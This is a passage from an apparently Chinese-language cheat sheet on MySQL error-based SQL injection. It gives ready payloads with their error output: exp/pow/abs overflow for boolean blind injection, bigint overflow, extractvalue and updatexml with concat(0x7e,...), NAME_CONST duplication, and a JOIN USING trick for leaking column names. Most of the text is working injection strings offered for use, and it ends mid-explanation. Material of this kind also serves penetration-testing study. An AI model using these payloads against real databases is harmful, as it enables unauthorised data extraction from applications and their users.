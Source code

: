 **exp、cot、pow、abs等可以报错**

```mysql
select abs(99999e9999999); #可使用在报错的布尔盲注中
ERROR 1367 (22007): Illegal double '99999e9999999' value found during parsing

select pow(1+(1=1),999999999999);mysql> select pow(1+(1=1),999999999999);
ERROR 1690 (22003): DOUBLE value is out of range in 'pow((1 + (1 = 1)),999999999999)'
mysql> select pow(1+(1=0),999999999999);
+---------------------------+
| pow(1+(1=0),999999999999) |
+---------------------------+
|                         1 |
+---------------------------+
1 row in set (0.00 sec)

通过这种写法，可以实现报错注入
select pow(1+(表达式),999999999999)
表达式可以是盲注的形式，返回1或者0，通过报错将字符才出来

其他函数用法类似

exp临界值709
exp(709+(1=0))
```

可以参考exp 报错文章：[http://www.cnblogs.com/lcamry/articles/5509124.html](http://www.cnblogs.com/lcamry/articles/5509124.html)

```mysql
select !(select * from (select user())x) -（ps:这是减号） ~0
--bigint 超出范围；~0 是对0 逐位取反，很大的版本在5.5.5 及其以上
```

可以参考文章bigint 溢出文章http://www.cnblogs.com/lcamry/articles/5509112.html

```mysql
extractvalue(1,concat(0x7e,(select @@version),0x7e)) 
--mysql 对xml 数据进行查询和修改的xpath 函数，xpath 语法错误
```

```mysql
updatexml(1,concat(0x7e,(select @@version),0x7e),1) 
--mysql 对xml 数据进行查询和修改的xpath 函数，xpath 语法错误
```

```mysql
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
--mysql 重复特性，此处重复了version，所以报错。
```

**join using()注列名**

通过系统关键词join可建立两个表之间的内连接。

通过对想要查询列名的表与其自身建议内连接，会由于冗余的原因(相同列名存在)，而发生错误。

并且报错信息会存在重复的列名，可以使用USING 表达式声明内连接（INNER JOIN）条件来避免报错。
